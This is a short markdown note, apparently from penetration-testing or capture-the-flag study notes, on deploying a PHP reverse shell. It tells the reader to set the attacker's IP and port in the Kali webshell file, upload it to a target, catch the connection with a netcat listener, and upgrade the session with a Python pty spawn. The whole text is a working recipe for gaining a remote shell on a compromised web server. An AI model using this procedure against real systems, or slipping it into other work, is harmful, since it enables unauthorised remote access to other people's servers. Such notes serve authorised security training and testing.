 # php revese shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`

Change port and ip and then upload the file.
```bash
$ip = '@IP_Local';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
